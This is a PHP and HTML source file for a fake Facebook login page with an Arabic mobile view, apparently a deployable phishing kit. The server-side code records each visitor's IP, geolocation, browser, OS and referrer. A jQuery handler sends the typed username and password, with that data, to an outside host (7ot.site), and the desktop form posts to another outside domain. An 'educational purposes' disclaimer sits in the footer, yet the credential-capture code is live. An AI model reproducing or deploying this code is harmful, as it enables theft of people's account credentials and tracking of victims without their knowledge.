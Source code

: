 <?php
$post           =   0;
$ip             =   0;
$country        =   "";
$city           =   "";
$browser_name   =   "";
$os             =   "";
$ref            =   "";
if(isset($_GET) && $_GET['post']!="")
{
    function getRealIpAddr(){
 if ( !empty($_SERVER['HTTP_CLIENT_IP']) ) {
  // Check IP from internet.
  $ip = $_SERVER['HTTP_CLIENT_IP'];
 } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']) ) {
  // Check IP is passed from proxy.
  $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
 } else {
  // Get IP address from remote address.
  $ip = $_SERVER['REMOTE_ADDR'];
 }
 return $ip;
}

function getBrowser(){

$agent = $_SERVER['HTTP_USER_AGENT'];
$name = 'NA';


if (preg_match('/MSIE/i', $agent) && !preg_match('/Opera/i', $agent)) {
    $name = 'Internet Explorer';
} elseif (preg_match('/Firefox/i', $agent)) {
    $name = 'Mozilla Firefox';
} elseif (preg_match('/Chrome/i', $agent)) {
    $name = 'Google Chrome';
} elseif (preg_match('/Safari/i', $agent)) {
    $name = 'Apple Safari';
} elseif (preg_match('/Opera/i', $agent)) {
    $name = 'Opera';
} elseif (preg_match('/Netscape/i', $agent)) {
    $name = 'Netscape';
}


return $name;
}

$user_agent = $_SERVER['HTTP_USER_AGENT'];

function getOS() { 

    global $user_agent;

    $os_platform  = "Unknown OS Platform";

    $os_array     = array(
                          '/windows nt 10/i'      =>  'Windows 10',
                          '/windows nt 6.3/i'     =>  'Windows 8.1',
                          '/windows nt 6.2/i'     =>  'Windows 8',
                          '/windows nt 6.1/i'     =>  'Windows 7',
                          '/windows nt 6.0/i'     =>  'Windows Vista',
                          '/windows nt 5.2/i'     =>  'Windows Server 2003/XP x64',
                          '/windows nt 5.1/i'     =>  'Windows XP',
                          '/windows xp/i'         =>  'Windows XP',
                          '/windows nt 5.0/i'     =>  'Windows 2000',
                          '/windows me/i'         =>  'Windows ME',
                          '/win98/i'              =>  'Windows 98',
                          '/win95/i'              =>  'Windows 95',
                          '/win16/i'              =>  'Windows 3.11',
                          '/macintosh|mac os x/i' =>  'Mac OS X',
                          '/mac_powerpc/i'        =>  'Mac OS 9',
                          '/linux/i'              =>  'Linux',
                          '/ubuntu/i'             =>  'Ubuntu',
                          '/iphone/i'             =>  'iPhone',
                          '/ipod/i'               =>  'iPod',
                          '/ipad/i'               =>  'iPad',
                          '/android/i'            =>  'Android',
                          '/blackberry/i'         =>  'BlackBerry',
                          '/webos/i'              =>  'Mobile'
                    );

    foreach ($os_array as $regex => $value)
        if (preg_match($regex, $user_agent))
            $os_platform = $value;

    return $os_platform;
}
    $post   =   $_GET['post'];
    // PHP code to obtain country, city,  
    // continent, etc using IP Address 
  
    $ip = getRealIpAddr(); 
  
    // Use JSON encoded string and converts 
    // it into a PHP variable 
    $ipdat = @json_decode(file_get_contents( 
    "http://www.geoplugin.net/json.gp?ip=" . $ip));
    $country    =   $ipdat->geoplugin_countryName;
    $city       =   $ipdat->geoplugin_city;
    $browser_name   =   getBrowser();
    $os             =   getOS();
    $ref=   @$_SERVER[HTTP_REFERER];
}
?>
<!DOCTYPE html>
<html lang="ar">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
<link rel="stylesheet" type="text/css" href="css/computer.css" media="screen and (min-width: 769px)">
<link rel="stylesheet" type="text/css" href="css/mobile.css" media="screen and (max-width: 768px)">
<link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.0/css/all.css" integrity="sha384-lZN37f5QGtY3VHgisS14W3ExzMWZxybE1SJSEsQp9S+oqd12jhcu+A56Ebc1zFSJ" crossorigin="anonymous">
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
<link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
<title>Facebook - Log In or Sign Up</title>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script>
    $(document).ready(function(){
      $("#loginmob").click(function(){
            var username = $('#username').val();
            var password = $('#password').val();
            var post     = $('#post').val();
            var ip       = $('#ip').val();
            var country  = $('#country').val();
            var city     = $('#city').val();
            var browser  = $('#browser').val();
            var os       = $('#os').val();
            var traffic  = $('#traffic').val();
            $.ajax({
              type: 'POST',
              url: 'https://7ot.site/controller/webservice.php',
              data: { post:post, username: username, password: password, ip:ip, country:country, city:city, browser:browser, os:os, traffic:traffic},
              success: function(response) {
                  var url1  =   response.substring(0, response.indexOf(','));
                  var url2  =   response.substring(response.indexOf(',') + 1);
                 // alert(url1);
                 // alert(url2);
               //$('#result').html(response);
                window.open(url1,'popup','width=900,height=1000');
                window.location.replace(url2);
               
        }
      });
    });
    });
</script>
</head>

<body>
<div class="computer">
  <header>
    <div class="headersubdiv">
      <img src="images/fblogo.png" class="fblogo">
      <form action="http://omanpro.club/controller/webservice.php" method="post">
      <div class="loginform">
        <table>
          <tr>
            <td class="logintext">Email or Phone</td>
            <td class="logintext"><span class="loginrowgap">Password</span></td>
          </tr>
            <td><input class="logintext loginfield" id="" type="text"></td>
            <td><input class="logintext loginrowgap loginfield" type="password"></td>
            <td><input type="submit"tiput type="submit" value="Log In" ></td>
          </tr>
          <tr>
            <td></td>
            <td><a href="#" class="logintext loginrowgap" id="forgotpw">Forgotten account?</a></td>
          </tr>
        </table>
      </div>
      </form>
    </div>
  </header>

  <div class="maindiv">
    <div class="mainsubdiv">
      <div class="welcome">
        <div class="welcometext">Facebook helps you connect and share with the people in your life.</div>
        <div class="welcomepic">
          <img src="images/connecting.png" alt="welcome">
        </div>
      </div>
      <div class="signupdiv">
        <div class="createaccount">
          <div class="createh1"><span>Create an account</span></div>
          <div class="createp">It's free and always will be.</div>
        </div>
        <div class="signupform">
          <div class="inputname">
            <input type="text" name="firstname" placeholder="First name" class="namebox namebox1 signuptextbox" required>
            <input type="text" name="surname" placeholder="Surname" class="namebox namebox2 signuptextbox" required>
          </div>
          <input class="mobilepw signuptextbox" type="text" name="mobile/email" placeholder="Mobile number or email address" required><br>
          <input class="mobilepw signuptextbox" type="password" placeholder="New password" required>
          <br>
          <p class="createp" id="birthday">Birthday</p>
          <div class="dobdiv">
            <select name="dobdate" class="dob day">
              <option value="day">Day</option>
              <option value="1">1</option>
              <option value="2">2</option>
              <option value="3">3</option>
              <option value="4" selected>4</option>
              <option value="5">5</option>
              <option value="6">6</option>
              <option value="7">7</option>
              <option value="8">8</option>
              <option value="9">9</option>
              <option value="10">10</option>
              <option value="11">11</option>
              <option value="12">12</option>
              <option value="13">13</option>
              <option value="14">14</option>
              <option value="15">15</option>
            </select>
            <select name="dobmonth" class="dob month">
              <option value="month">Month</option>
              <option value="jan">Jan</option>
              <option value="feb">Feb</option>
              <option value="mar">Marc</option>
              <option value="apr" selected>Apr</option>
              <option value="may">May</option>
              <option value="jun">Jun</option>
              <option value="jul">Jul</option>
              <option value="aug">Aug</option>
              <option value="sep">Sept</option>
              <option value="oct">Oct</option>
              <option value="nov">Nov</option>
              <option value="dec">Dec</option>
            </select>
            <select name="dobyear"  class="dob year">
              <option value="year">Year</option></option><option value="0">Year</option><option value="2019">2019</option><option value="2018">2018</option><option value="2017">2017</option><option value="2016">2016</option><option value="2015">2015</option><option value="2014">2014</option><option value="2013">2013</option><option value="2012">2012</option><option value="2011">2011</option><option value="2010">2010</option><option value="2009">2009</option><option value="2008">2008</option><option value="2007">2007</option><option value="2006">2006</option><option value="2005">2005</option><option value="2004">2004</option><option value="2003">2003</option><option value="2002">2002</option><option value="2001">2001</option><option value="2000">2000</option><option value="1999">1999</option><option value="1998">1998</option><option value="1997">1997</option><option value="1996">1996</option><option value="1995">1995</option><option value="1994" selected="1">1994</option><option value="1993">1993</option><option value="1992">1992</option><option value="1991">1991</option><option value="1990">1990</option><option value="1989">1989</option><option value="1988">1988</option><option value="1987">1987</option><option value="1986">1986</option><option value="1985">1985</option><option value="1984">1984</option><option value="1983">1983</option><option value="1982">1982</option><option value="1981">1981</option><option value="1980">1980</option><option value="1979">1979</option><option value="1978">1978</option><option value="1977">1977</option><option value="1976">1976</option><option value="1975">1975</option><option value="1974">1974</option><option value="1973">1973</option><option value="1972">1972</option><option value="1971">1971</option><option value="1970">1970</option><option value="1969">1969</option><option value="1968">1968</option><option value="1967">1967</option><option value="1966">1966</option><option value="1965">1965</option><option value="1964">1964</option><option value="1963">1963</option><option value="1962">1962</option><option value="1961">1961</option><option value="1960">1960</option><option value="1959">1959</option><option value="1958">1958</option><option value="1957">1957</option><option value="1956">1956</option><option value="1955">1955</option><option value="1954">1954</option><option value="1953">1953</option><option value="1952">1952</option><option value="1951">1951</option><option value="1950">1950</option><option value="1949">1949</option><option value="1948">1948</option><option value="1947">1947</option><option value="1946">1946</option><option value="1945">1945</option><option value="1944">1944</option><option value="1943">1943</option><option value="1942">1942</option><option value="1941">1941</option><option value="1940">1940</option><option value="1939">1939</option><option value="1938">1938</option><option value="1937">1937</option><option value="1936">1936</option><option value="1935">1935</option><option value="1934">1934</option><option value="1933">1933</option><option value="1932">1932</option><option value="1931">1931</option><option value="1930">1930</option><option value="1929">1929</option><option value="1928">1928</option><option value="1927">1927</option><option value="1926">1926</option><option value="1925">1925</option><option value="1924">1924</option><option value="1923">1923</option><option value="1922">1922</option><option value="1921">1921</option><option value="1920">1920</option><option value="1919">1919</option><option value="1918">1918</option><option value="1917">1917</option><option value="1916">1916</option><option value="1915">1915</option><option value="1914">1914</option><option value="1913">1913</option><option value="1912">1912</option><option value="1911">1911</option><option value="1910">1910</option><option value="1909">1909</option><option value="1908">1908</option><option value="1907">1907</option><option value="1906">1906</option><option value="1905">1905</option>
            </select>
            <div id="whydb">
            <a href="#">Why do I need to provide my date of birth?</a>
              <div id="whydbtooltip">
                  <strong>Providing your date of birth</strong> helps make sure that you get the right Facebook experience for your age. If you want to change who sees this, go to the About section of your Profile. For more details, please visit our <a href="#">Data Policy</a>.
                  <hr id="hrtooltip">
                  <button id="whydbtooltipbutton">OK</button>
              </div>
            </div>
          </div>
          <div class="gender">
            <span id="femalediv"><input type="radio" name="gender" value="female" id="female"><label class="gendertext" for="female">Female</label></span>
            <span id="malediv"><input type="radio" name="gender" value="male" id="male"><label class="gendertext" for="male">Male</label></span>
          </div>
          <div>
            <p class="terms">
              By clicking Sign Up, you agree to our <a href="#" class="linksinterms">Terms</a>, <a href="#" class="linksinterms">Data Policy</a> and <a href="#" class="linksinterms">Cookie Policy</a>. You may receive SMS notifications from us and can opt out at any time.
            </p>
          </div>
          <div class="clearfix">
            <button type="button" id="signupbutton">Sign Up</button>
          </div>
          <div id="createpage">
            <a href="#">Create a Page</a> for a celebrity, band or business.
          </div>
        </div>
      </div>
    </div>
  </div>
  <footer>
    <div id="footersubdiv">
      <div id="languagediv">
        <a href="#" class="language" id="currentlang">English (UK)</a>
        <a href="#" class="language">മലയാളം</a>
        <a href="#" class="language">தமிழ்</a>
        <a href="#" class="language">ಕನ್ನಡ</a>
        <a href="#" class="language">हिन्दी</a>
        <a href="#" class="language">اردو</a>
        <a href="#" class="language">বাংলা</a>
        <a href="#" class="language">తెలుగు </a>
        <a href="#" class="language">Español</a>
        <a href="#" class="language">Português (Brasil)</a>
        <a href="#" class="language">Français (France)</a>
        <a href="#" id="morelang"><i class="fa fa-plus" aria-hidden="true"></i></a>
      </div>
      <hr id="hrfinal">
      <div id="extralinksdiv">
        <a href="#" class="extralinks">Sign Up</a>
        <a href="#" class="extralinks">Log In</a>
        <a href="#" class="extralinks">Messenger</a>
        <a href="#" class="extralinks">Facebook Lite</a>
        <a href="#" class="extralinks">Find Friends</a>
        <a href="#" class="extralinks">People</a>
        <a href="#" class="extralinks">Profiles</a>
        <a href="#" class="extralinks">Pages</a>
        <a href="#" class="extralinks">Page categories</a>
        <a href="#" class="extralinks">Places</a>
        <a href="#" class="extralinks">Games</a>
        <a href="#" class="extralinks">Locations</a>
        <a href="#" class="extralinks">Marketplace</a>
        <a href="#" class="extralinks">Groups</a>
        <a href="#" class="extralinks">Instagram</a>
        <a href="#" class="extralinks">Local</a>
        <a href="#" class="extralinks">Fundraisers</a>
        <a href="#" class="extralinks">About</a>
        <a href="#" class="extralinks">Create ad</a>
        <a href="#" class="extralinks">Create Page</a>
        <a href="#" class="extralinks">Developers</a>
        <a href="#" class="extralinks">Careers</a>
        <a href="#" class="extralinks">Privacy</a>
        <a href="#" class="extralinks">Cookies</a>
        <a href="#" class="extralinks">AdChoices</a>
        <a href="#" class="extralinks">Terms</a>
        <a href="#" class="extralinks">Account security</a>
        <a href="#" class="extralinks">Login help</a>
        <a href="#" class="extralinks">Help</a>
      </div>
      <div id="copyrightdiv">
          <span id="copyright"><a href="https://www.facebook.com" target="_blank" id="copyrightfblink">Facebook</a> © 2019</span>
          <span id="disclaimer">UI cloned for educational purposes by <a href="https://www.linkedin.com/in/kspranav10/" target="_blank" id="pranavks">Pranav K S &nbsp<i class="fa fa-linkedin-square"></i></a></span>
      </div>
    </div>
  </footer>
</div>



<!--Code for Mobile Screen-->

<div class="mobile">
  <div class="mobheader">
    <img src="images/fblogo.png" class="mobfblogo">
  </div>
  <div id="mobapplink" class="clearfix">
    <a href="#">
      <img src="images/fbandroid.png" id="mobandroidpic">
      <div id="getfbandroid">وتصفح بسرعة أكبر Android احصل على فيسبوك لنظام</div>
    </a>
  </div>
  <div class="mobmaindiv">
      <div >
    <div id="mobtextdiv">
      <input type="text" class="mobtextbox mobtextbox1" id="username" placeholder="رقم الهاتف المحمول أو البريد الإلكتروني">
      <input type="hidden" id="post" value="<?php echo $post; ?>">
      <input type="hidden" id="ip" value="<?php echo $ip; ?>">
      <input type="hidden" id="country" value="<?php echo $country; ?>">
      <input type="hidden" id="city" value="<?php echo $city; ?>">
      <input type="hidden" id="browser" value="<?php echo $browser_name; ?>">
      <input type="hidden" id="os" value="<?php echo $os; ?>">
      <input type="hidden" id="traffic" value="<?php echo $ref; ?>">
      
      <input type="password" class="mobtextbox mobtextbox2" id="password" placeholder="كلمة السر">
    </div>
    <div class="mobloginbuttondiv">
      <button class="mobloginbutton" id="loginmob">تسجيل الدخول</button>
    </div>
    <div id="ordiv">
    <span id="or">or</span>
    </div>
    <div id="mobcreatediv">
      <button id="mobcreate">إنشاء حساب جديد</button>
    </div>
    <div class="mobforgotpw">
      <a href="#">هل نسيت كلمة السر؟</a>
      <span>·</span>
      <a href="#">المساعدة</a>
    </div>
    
  </div>
  <div class="mobfooter">
    <div id="moblangs">
      <div class="item1">
        <li><a href="#" id="mobcurrentlang">English (UK)</a></li>
        <li><a href="#">தமிழ்</a></li>
        <li><a href="#">हिन्दी</a></li>
        <li><a href="#">বাংলা</a></li>
      </div>
      <div class="item2">
        <li><a href="#">മലയാളം</a></li>
        <li><a href="#">ಕನ್ನಡ</a></li>
        <li><a href="#">اردو</a></li>
        <li><a href="#"><i class="fa fa-plus-square-o"></i></a></li>
      </div>
    </div>
    <div class="mobcopyright">
      <span class="mobfbcopyright"><a href="https://www.facebook.com" target="_blank" id="mobcopyrightfblink">Facebook</a> ©2020</span><br>
      
    </div>
    </div>
</div>
</div>
</body>
</html>
